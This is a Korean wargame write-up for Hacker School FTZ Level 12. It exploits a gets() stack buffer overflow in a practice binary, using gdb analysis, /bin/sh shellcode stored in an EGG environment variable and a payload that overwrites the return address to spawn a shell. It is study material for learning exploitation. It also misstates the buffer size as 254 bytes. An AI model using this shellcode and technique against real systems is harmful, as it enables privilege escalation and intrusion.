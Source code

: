 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 12"
description: "Do you know the ?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level12/1.jpg" | relative_url }}' alt='relative'>  

## 1) level12/it is like this 입력해 로그인  

<img data-action="zoom" src='{{ "assets/ftz/level12/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

위의 코드를 보면 level11에서 공격했던 프로그램과 유사합니다.  

level11에서는 argv[1]에 들어 있는 값으로 BOF를 발생시켰다면,  
이번 문제에서는 사용자에게 입력을 받는 취약점을 이용해 BOF를 발생시킵니다.  

입력을 받는 경우 최대 입력 길이를 제한하지 않는 gets의 취약점을 이용한 문제입니다.  

## 2) 간단하게 해당 프로그램 살펴보기  

level11에서 봤던 프로그램과 비슷하기 때문에 간단하게 해당 프로그램을 살펴보겠습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/3.png" | relative_url }}' alt='relative'>  

ebp가 가리키는 주소에서 0x108(=264)만큼 떨어진 위치에 str 문자열 배열이 위치합니다.  
즉, str 배열의 시작 주소는 $ebp - 264라고 할 수 있습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/4.png" | relative_url }}' alt='relative'>  

get 함수를 call하는 0x080483d2(\*main+66)에 브레이크 포인트를 잡고 ebp 주소와 str 배열의 주소를 알아봤습니다.  
그리고 get 함수가 실행되고 난 뒤 str 배열에 입력된 값을 확인하기 위해 0x080483d7(\*main+71)에도 브레이크 포인트를 설정했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/5_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_3.png" | relative_url }}' alt='relative'>  

gets 함수의 인자로 str 배열의 주소가 eax 레지스터에 담겨있기 때문에 레지스터 주소를 확인하여 ebp 주소와 eax 주소를 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/6_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_3.png" | relative_url }}' alt='relative'>  

str 배열의 주소와 ebp가 가리키는 주소가 프로그램을 새로 실행할 때마다 달라져도  
str 배열의 주소와 ebp가 가리키는 주소 사이에 0x108 byte 크기만큼 공간이 띄어진 것을 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/7.png" | relative_url }}' alt='relative'>  

``` bash
r <<< $(python -c 'print "AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE"')
```

r은 프로그램을 run 한다는 뜻입니다. run을 하면서 사용자의 입력을 미리 입력 받고 있습니다.  

r 뒤에 '<<<'가 의미하는 것은 오른쪽에 단어를 왼쪽 프로그램에게 표준 입력으로 전달하겠다는 의미입니다.
즉, 표준 입력을 리다이렉션 하는 것입니다.  

``` bash
python -c [command]
```

python의 -c 옵션을 사용해 command로 주어지는 파이썬 문장을 실행시킵니다.  

그래서 총 264 byte 문자열("AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE")이 str 배열에 입력되었습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/8.png" | relative_url }}' alt='relative'>  

gets 함수 실행 전 str 배열에 들어있는 값과 gets 함수 실행 후 str 배열에 들어있는 값을 비교해보면  
gets 함수 실행 후 프로그램 실행 시 입력했던 264 byte 문자열이 입력되어 있는 것을 확인할 수 있습니다.  

gets 함수에서 최대 입력 문자열의 길이를 제한하지 않아 BOF가 발생했습니다.  
str 배열의 길이가 254 byte이지만 264 byte 문자열을 입력 받아 기존에 들어있던 SFP와 RET의 값을 지우고 사용자가 입력한 값으로 채웠습니다.  

return address를 의미하는 RET 위치에  
즉, 0x45454545가 들어있는 주소에 쉘코드가 저장되어 있는 주소를 입력해주면 BOF에 성공합니다.  

## 3) 쉘코드를 어디에 저장?  

위에서 프로그램을 여러 번 실행하면서 str 배열의 주소가 계속해서 바뀌는 것을 확인했습니다.  
str 배열의 주소를 RET 값으로 입력하면 쉘코드를 실행시킬 수 있지만  
str 배열의 주소가 계속해서 바뀌면 RET 주소의 값을 특정하기 어려워집니다.  

이는 메모리 상의 공격을 어렵게 하기 위해 스택, 힙, 라이브러리 등 주소를 랜덤으로 프로세스 주소 공간에 배치해 실행할 때마다 데이터의 주소가 변경되는 기법이 적용됐기 때문입니다.  
즉, ASLR 보호 기법이 적용되어 프로그램이 실행될 때마다 str 배열의 주소가 변경되었습니다.  

level11 문제에서도 ASLR 보호 기법이 적용되어 있어 RET 주소를 변경하며 반복 실행을 했었습니다.  
하지만 ASLR이 적용되어 있어 여러 번 실행해도 쉽게 풀 수 없을 걸로 예상되는데,,,  
그렇다면 ASLR을 우회할 수 있는 더 쉬운 방법은 없을까요?  

## 4) 환경 변수 사용하기  

환경 변수는 프로그램을 실행하기 위한 환경 정보를 담고 있습니다.  
> 환경 변수란? 
프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임이다. 
즉, 쉘에서 실행되는 프로그램에 데이터를 전달하는 시스템 내에 저장된 변수이다.  
일반적으로 사용되는 환경변수로는 HOME, PATH, SHELL, USER, bASH, UID, USERNAME 등이 있다.  


환경 변수를 확인하기 위해 env 명령어를 사용하면 됩니다.  
echo $\[환경 변수 이름\]을 입력해 환경 변수 값을 출력하고,  
export 환경 변수 이름을 입력해 환경 변수를 새로 만들거나 수정할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/9.png" | relative_url }}' alt='relative'>  

'ls', 'pwd', 'cd' 명령어를 절대경로로 입력하지 않고도 사용가능한 이유도  
PATH라는 환경 변수에 명령어가 저장되어 있는 디렉토리 주소(/bin/)가 명시되어 있기 때문입니다.  

쉘코드를 환경 변수에 등록해놓고 RET 주소에 쉘코드가 저장되어 있는 환경 변수 주소를 입력하는 것을 EggShell이라고 합니다.  
일반적으로 입력의 크기 또는 버퍼의 크기가 쉘코드의 크기보다 작아서 쉘코드를 입력할 수 없을 때 사용하는 방법입니다.  

이번 문제에서는 입력의 크기도 제한이 없고 버퍼도 쉘코드의 크기보다 크지만 RET 주소를 정확하게 특정하기 위해 EggShell 방법을 사용할 것입니다.   
그래서 환경 변수 이름을 EGG로 지정하여 환경 변수에 쉘코드를 저장한 뒤, EGG 환경 변수가 저장된 위치를 확인했습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/10.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

<img data-action="zoom" src='{{ "assets/ftz/level12/11.png" | relative_url }}' alt='relative'>  

EGG 환경 변수 값이 저장되어 있는 주소는 그림과 같고 해당 환경 변수에는 쉘코드가 저장되어 있습니다.  

## 5) BOF 시도하기  

쉘코드가 저장되어 있는 주소 위치도 찾았으니 BOF 공격을 시도하겠습니다.  

str 배열(254 bytes) + dummy (8 bytes) + SFP (4 bytes) = 268 bytes 이므로  
NOP으로 268 byte를 채우고 RET에 EGG 환경 변수 위치한 주소(=쉘코드가 저장된 주소)를 입력합니다.  

리틀 엔디언 방식으로 저장되기 때문에 0xbffffc88를 입력할 때는 \x88\xfc\xff\xbf로 입력해야 합니다.  

``` bash
(python -c 'print "\x90"*268+"\x88\xfc\xff\xbf"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level12/12.png" | relative_url }}' alt='relative'>  

환경 변수를 이용하니 여러 번 반복 수행할 필요없이 깔끔하게 풀 수 있었습니다.  